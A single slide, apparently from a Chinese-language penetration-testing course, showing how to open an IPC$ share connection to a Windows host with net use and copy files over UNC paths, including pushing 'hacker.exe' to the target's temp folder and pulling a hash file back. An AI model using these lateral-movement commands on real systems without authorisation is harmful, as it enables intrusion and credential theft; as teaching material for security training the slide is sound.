

PART
3
THR
渗透思路 – 命令行

建立ipc连接
建立后可以访问目标机器的文件(上传、下载)，也可以在目标机器上运行命令。 上传和下载文件直接通过copy命令就可以，不过路径换成UNC路径。
net use \\ip\ipc$ pawword /user:username   建立IPC连接
copy hacker.exe \\10.10.10.10\C$\windows\temp 复制本地文件到目标服务器
copy \\10.10.10.10\C$\windows\temp\hash.txt 复制目标服务器文件到本地